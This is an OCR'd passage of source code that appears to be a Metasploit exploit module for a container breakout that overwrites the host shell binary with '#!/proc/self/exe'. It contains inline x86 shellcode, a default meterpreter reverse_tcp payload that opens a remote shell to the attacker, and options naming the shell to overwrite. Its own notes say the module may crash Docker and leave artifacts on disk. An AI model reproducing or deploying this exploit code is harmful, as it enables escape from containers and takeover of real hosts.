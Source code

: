                         jnz  _close_fds_loop

                        push 0x0000006c
                        push 0x7665642f
                        push 0x6c756e2f
                        mov  ebx, esp
                        xor  ecx, ecx

                        push 5
                        pop  eax
                        int  0x80

                        push 5
                        pop  eax
                        int  0x80

                        push 5
                        pop  eax
                        int  0x80
                    ASM
                  },
                  'DefaultOptions' => {
                    'PAYLOAD' => 'linux/x86/meterpreter/reverse_tcp',
                    'PrependFork' => true
                  }
                }
              ]
            ],
            'DefaultOptions' => {
              # Give the user on the target plenty of time to trigger the payload
              'WfsDelay' => 300
            },
            'DefaultTarget' => 1,
            'Notes' => {
              # Docker may hang and will need to be restarted
              'Stability' => [CRASH_SERVICE_DOWN, SERVICE_RESOURCE_LOSS, OS_RESOURCE_LOSS],
              'Reliability' => [REPEATABLE_SESSION],
              'SideEffects' => [ARTIFACTS_ON_DISK]
            }
          )
        )

        register_options([
          OptString.new(
            'OVERWRITE',
            [
              true,
              'Shell to overwrite with \'#!/proc/self/exe\'',
              '/bin/sh'
            ]
          ),
          OptString.new(
            'SHELL',
            [
              true,
              'Shell to use in scripts (must be different than OVERWRITE shell)',
              '/bin/bash'
            ]
          ),
          OptString.new(
            'WRITABLEDIR',
            [